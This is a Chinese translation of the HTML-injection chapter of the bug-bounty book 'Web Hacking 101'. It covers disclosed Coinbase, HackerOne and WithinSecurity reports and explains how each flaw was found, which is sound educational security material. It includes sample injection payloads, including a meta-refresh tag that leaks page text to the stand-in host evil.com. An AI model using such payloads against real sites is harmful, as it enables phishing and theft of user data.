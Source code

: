 ```yaml
---
title: Web Hacking 101 中文版 五、HTML 注入
id: csdn62888876
---
```


# 五、HTML 注入

> 作者：Peter Yaworski
> 
> 译者：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 描述

超文本标记语言（HTML）注入有时也被称为虚拟污染。 这实际上是一个由站点造成的攻击，该站点允许恶意用户向其 Web 页面注入 HTML，并且没有合理处理用户输入。 换句话说，HTML 注入漏洞是由接收 HTML 引起的，通常通过一些之后会呈现在页面的表单输入。 这个漏洞是独立的，不同于注入 Javascript，VBscript 等。

由于 HTML 是用于定义网页结构的语言，如果攻击者可以注入 HTML，它们基本上可以改变浏览器呈现的内容。 有时，这可能会导致页面外观的完全改变，或在其他情况下，创建表单来欺骗用户，例如，如果你可以注入 HTML，你也许能够将 `<form>` 标签添加到页面，要求用户重新输入他们的用户名和密码。 然而，当提交此表单时，它实际上将信息发送给攻击者。

## 示例

### 1\. Coinbase 评论

难度：低

URL：`coinbase.com/apps`

报告链接：`https://hackerone.com/reports/104543`

报告日期：2015.12.10

奖金：$200

描述：

对于此漏洞，报告者识别出 Coinbase 在呈现文本时，实际上在解码 URI 的编码值。 对于那些不熟悉它的人（我在写这篇文章的时候），URI 中的字符是保留的或未保留的。 根据维基百科，保留字是有时有特殊意义的字符，如`/`和`&`。 未保留的字符是没有任何特殊意义的字符，通常只是字母。

因此，当字符被 URI 编码时，它将按照 ASCII 转换为其字节值，并以百分号（`%`）开头。 所以，`/`变成`%2F`，`&`成为`%26`。 另外，ASCII 是一种在互联网上最常见的编码，直到 UTF-8 出现，它是另一种编码类型。 现在，回到我们的例子，如果攻击者输入 HTML：

```
<h1>This is a test</h1>
```

Coinbase 实际上会将其渲染为纯文本，就像你上面看到的那样。但是，如果用户提交了 URL 编码字符，像这样：

```
%3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
```

Coinbase 实际上会解码该字符串，并渲染相应的字符，像这样：

```
This is a test
```

使用它，报告者演示了如何提交带有用户名和密码字段的 HTML 表单，Coinbase 会渲染他。如果这个用户是恶意的，Coinbase 就会渲染一个表单，它将值提交给恶意网站来捕获凭据（假设人们填充并提交了表单）。

> 重要结论
> 
> 当你测试一个站点时，要检查它如何处理不同类型的输入，包括纯文本和编码文本。特别要注意一些接受 URI 编码值，例如`%2f`，并渲染其解码值的站点，这里是`/`。虽然我们不知道这个例子中，黑客在想什么，它们可能尝试了 URI 编码限制字符，并注意到 Coinbase 会解码它们。之后他们更一步 URL 编码了所有字符。
> 
> [http://quick-encoder.com/url](http://quick-encoder.com/url) 是一个不错的 URL 编码器。你在使用时会注意到，它告诉你非限制字符不需要编码，并且提供了编码 URL 安全字符的选项。这就是获取用于 COinbase 的相同编码字符串的方式。

### 2\. HackerOne 无意识 HTML 包含

难度：中

URL：hackerone.com

报告链接：[https://hackerone.com/reports/112935](https://hackerone.com/reports/112935)

报告日期：2016.1.26

奖金：$500

描述：

在读完 Yahoo XSS 的描述（第七章示例四），我对文本编辑器中的 HTML 渲染测试产生了兴趣。这包含玩转 HackerOne 的 Markdown 编辑器，在图像标签中输入一些类似`ismap= "yyy=xxx"`和`"'test"`的东西。这样做的时候，我注意到，编辑器会在双引号里面包含一个单引号 - 这叫做悬置引号。

那个时候，我并没有真正理解它的含义。我知道如果你在某个地方注入另一个单引号，两个引号就会被浏览器一起解析，浏览器会将它们之间的内容视为一个 HTML 元素，例如：

```
<h1>This is a test</h1><p class="some class">some content</p>'
```

使用这个例子，如果你打算注入一个 Meta 标签：

```
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```

浏览器会提交两个引号之间的任何东西。现在，结果是，这个已经在 HackerOne 的 [#110578](https://hackerone.com/reports/110578) 报告中由 [intidc](https://hackerone.com/intidc) 公开。看到它公开之后，我有一点失望。

根据 HackerOne，它们依赖于 Redcarpet（一个用于 Markdown 处理的 Ruby 库）的实现，来转义任何 Markdown 输入的 HTML 输出，随后它会通过 React 组件的`dangerouslySetInnerHTML`直接传递给 HTML DOM（也就是页面）。此外，React 是一个 JavaScript 库，可用于动态更新 Web 页面的内容，而不需要重新加载页面。

DOM 指代用于有效 HTML 以及 格式良好的 XML 的应用程序接口。本质上，根据维基百科，DOM 是跨平台并且语言无关的约定，用于展示 HTML、XHTML 和 XMl 中的对象，并与其交互。

在 HackerOne 的实现中，它们并没有合理转义 HTML 输出，这会导致潜在的漏洞。现在，也就是说，查看披露，我觉得我应该测试一下心得代码。我返回并测试了这个：

```
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss" yyy="test"\ ")
```

它会变成

```
<a title="'test" ismap="alert xss" yyy="test" &#39; ref="http://www.toronotwebsi\ tedeveloper.com">test</a>
```

你可以看到，我能够将一堆 HTML 注入到`<a>`标签中。所以，HackerOne 回滚了该修复版本，并重新开始转义单引号了。

> 重要结论
> 
> 仅仅是代码被更新了，并不意味着一些东西修复了，而是还要测试一下。当部署了变更之后，同时意味着新的代码也可能存在漏洞。
> 
> 此外，如果你觉得有什么不对，一定要深入挖掘。我知道一开始的尾后引号可能是个问题，但是我不知道如何利用它，所以我停止了。我本应该继续的。我实际上通过阅读 XSS Jigsaw 的

### 3\. WithinSecurity 内容伪造

难度：低

URL：`withinsecurity.com/wp-login.php`

报告链接：`https://hackerone.com/reports/111094`

报告日期：2015.1.16

奖金：$250

描述：

虽然内容伪造实际上和 HTML 注入是不同的漏洞，我也将其包含在这里，因为它们拥有相似的本质，攻击者让一个站点渲染它们选择的内容。

WithinSecurity 构建在 WordPress 平台之上，它包含登录页面`withinsecurity.com/wp-login.php`（这个站点已经合并到了 HackerOne 的核心平台中）。攻击者注意到了在登录过程中，如果发生了错误，WithinSecurity 就会渲染`access_denied`，同时对应 URL 中的`error`参数：

```
https://withinsecurity.com/wp-login.php?error=access_denied
```

注意到了这个，攻击者尝试修改`error`参数，并发现无论参数传递了什么值，都会被站点渲染为错误信息的一部分，并展示给用户。这里是所用的示例：

```
https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20%hacked
```

![](../img/70cb6579e2cf5907aad0193862bc07fc.png)

WithinSecurity 内容伪造

这里的关键是注意到 URL 中的参数在页面中渲染。虽然他们没有解释，我可以假设攻击者注意到了`access_denied`展示在了页面上，但是也包含在 URL 中。这里他们也报告了，漏洞也可以由一个简单的测试，修改`access_denied`参数来找到。

> 重要结论
> 
> 时刻关注传递并且渲染为站点内容的 URL 参数。他们可能就是攻击者的机会，来欺骗受害者来执行一些恶意动作。

## 总结

HTML 注入向站点和开发者展示了漏洞，因为他可以用于误导用户，并且欺骗它们来提交一些敏感信息，或者浏览恶意网站。就像钓鱼攻击那样。

发现这些漏洞并不是通过仅仅提交 HTML，而是弄清楚站点如何渲染你的输入文本，像是 URI 编码的字符。而且，虽然内容伪造并不和 HTML 注入完全一样，它也是类似的，因为它涉及让一些输入在 HTML 页面中反映给受害者。攻击者应该仔细寻找机会，来操纵 URL 参数，并让它们在站点上渲染。